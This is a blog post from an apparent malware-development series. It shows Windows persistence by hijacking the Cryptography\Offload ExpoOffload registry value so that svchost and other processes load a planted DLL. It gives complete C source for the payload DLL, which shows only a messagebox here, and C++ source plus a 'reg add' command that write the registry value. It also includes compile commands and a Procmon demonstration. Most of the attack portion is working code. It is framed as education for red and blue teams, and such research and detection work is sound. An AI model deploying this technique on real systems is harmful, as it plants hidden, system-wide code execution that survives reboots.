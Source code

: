 ```yaml
---
title:  "Malware development: persistence - part 16. Cryptography Registry Keys. Simple C++ example."
date:   2022-10-21 03:00:00 +0300
header:
  teaser: "/assets/images/76/2022-10-21_05-25.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/76/2022-10-21_05-25.png){:class="img-responsive"}    

This article is the result of my own investigation into one of the interesting malware persistence trick: via Cryptography Registry Key.     

In the course of studying the registry, I came across an interesting path:     

`HKLM\Software\Microsoft\Cryptography\`     

And there is a such function `OffloadModExpo`. If I understand correctly, this function is used to perform all modular exponentiations for both public and private key operations:     

![pers](/assets/images/76/2022-10-21_05-45.png){:class="img-responsive"}    

I didn't go into too much detail, the very opportunity to experiment with this key and value in the Windows registry is enough for me. So, I tried to hijacking this DLL path:    

`HKLM\Software\Microsoft\Cryptography\Offload` and key value.    

### practical example

First of all, as usually, create "evil" DLL. As usually, just `meow-meow` messagebox (`hack.c`):    

```cpp
/*
hack.c - malicious DLL
DLL hijacking Cryptography registry path
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Compile it:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

![pers](/assets/images/76/2022-10-21_05-20.png){:class="img-responsive"}    

And create Proof-of-Concept code for hijacking (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
hijacking cryptography DLL path
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/21/malware-pers-16.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // reg path
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // evil DLL
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // create key
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
    // set registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Cryptography\Offload" /v "ExpoOffload" /t REG_SZ /d "...\hack.dll" /f
    RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*)evil, strlen(evil));
    RegCloseKey(hkey);
  }

  return 0;
}
```

That's all I need for experiment.      

### demo

Let's go to see everything in action. Compile our Proof-of-Concept code:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/76/2022-10-21_05-21.png){:class="img-responsive"}    


Then, for the purity of experiment, check registry keys in the victim’s machine and delete keys if exists:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

![pers](/assets/images/76/2022-10-21_05-23.png){:class="img-responsive"}    

Then, run our `pers.exe` script and check again:     

![pers](/assets/images/76/2022-10-21_05-24.png){:class="img-responsive"}    

And now I'll try to run something. For example, I will try to open `https:\\...` link at the browser or use search bar.    

![pers](/assets/images/76/2022-10-21_05-25_1.png){:class="img-responsive"}    

In the course of performing some cryptographic operations at the background, we will see more and more popups.    

![pers](/assets/images/76/2022-10-21_05-27.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_05-27_1.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_05-28.png){:class="img-responsive"}    

Also I couldn't even run `Process Hacker 2` for investigation of the situation.     

![pers](/assets/images/76/2022-10-21_06-09.png){:class="img-responsive"}    

Then, restore my VM snapshot, run sysinternals `Procmon` with following filters:     

![pers](/assets/images/76/2022-10-21_06-20.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_06-22.png){:class="img-responsive"}    

And as a result:     

![pers](/assets/images/76/2022-10-21_06-24.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_06-25.png){:class="img-responsive"}    

As you can see at some stage my "evil" `meow-meow` DLL loaded by `svchost.exe`, `ProcessHacker.exe` and other processes.     

So, everything is worked correctly. Perfectly! =^..^=     

After end of experiments, restore my registry state:     

![pers](/assets/images/76/2022-10-21_05-33.png){:class="img-responsive"}    

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[OffloadModExpo](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa387021(v=vs.85))     
[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[source code in github](https://github.com/cocomelonc/2022-10-21-malware-pers-16)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*

